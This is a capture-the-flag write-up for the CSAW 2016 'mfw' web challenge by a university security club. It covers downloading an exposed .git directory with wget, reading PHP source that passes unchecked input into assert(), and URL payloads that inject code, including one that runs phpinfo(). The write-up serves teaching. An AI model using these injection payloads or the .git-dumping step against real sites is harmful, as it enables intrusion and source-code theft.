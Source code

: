 # CSAW 2016 Quals
# mfw 
#### Cassandra Stavros -- USF Whitehatter's Computer Security Club
#### web -- 125 points
## Description

Hey, I made my first website today. It's pretty cool and web7.9.

http://web.chal.csaw.io:8000/

## Solution
The website gives us the following information:
I wrote this website all by myself in under a week!

I used:

* Git
* PHP
* Bootstrap
---
From the html source code, we can see that there is a hidden flag.php page:
![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804797/22dd372c-81ce-11e6-96b0-a034f3d2d970.jpg)

The website author also hints that he used the above sources to create the website. A quick check of the challenge website reveals that they used github as the source control repository. We can use the publically exposed .git/ directory to retreive the website source code:

    http://web.chal.csaw.io:8000/.git/

Information security professionals warn that publicly revealing a website's source code leaves it open to vulnerabilities (https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/).

We can use this publically exposed .git/ directory to retreive the website source code.
We used `wget` to download that .git/ directory (or use curl for Mac users):

    wget --mirror -I .git http://web.chal.csaw.io:8000/.git/
---
Now that we have the .git/ directory, we can explore the files in the Git repository. 

By typing in the following command we can get the status of proposed and deleted changes:

    $ git status | head -n 10
    
Which retrieves the following file statuses:

    deleted:    index.php
    deleted:    templates/about.php
    deleted:    templates/contact.php
    deleted:    templates/flag.php
    deleted:    templates/home.php
---

we ran `git checkout -- ` to obtain the source files from the git repo

Next, we looked  at the current files in the directory:

    $ ls

Which shows that the following files exist:

    index.php
    templates
---

We examined the index.php file and found that it used assert. We also discovered that the $file variable is created from unchecked user input, namely the $_GET['page']. We can use $file to command inject the assert statement.

    <?php

    $file = "templates/" . $page . ".php";

    // I heard '..' is dangerous!
    assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

    // TODO: Make this look nice
    assert("file_exists('$file')") or die("That file doesn't exist!");

    ?>

Per aaraonasterling on StackOverflow: 
>The rule of thumb which is applicable across most languages (all that I vaguely know) is that an assert is used to assert that a >condition is always true whereas an if is appropriate if it is conceivable that it will sometimes fail. (http://stackoverflow.com/questions/4516419/should-i-be-using-assert-in-my-php-code#4516444)

With this in mind, we knew the way to capture the flag was to use `assert` to our advantage. First we tried some system commands through the browser, such as `http://web.chal.csaw.io:8000/?page=home%27!=0);//` and retrieved the "Detected hacking attempt!" web page.

---    

Next we pulled up the phpinfo page by injecting by typing in the following commands into the browser window:

    http://web.chal.csaw.io:8000/?page=home%27).%20phpinfo();%20//

Which retrieved all of the information and configuration of the website:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18820566/aebaa8c0-836c-11e6-949e-5bfa89b3cade.jpg)
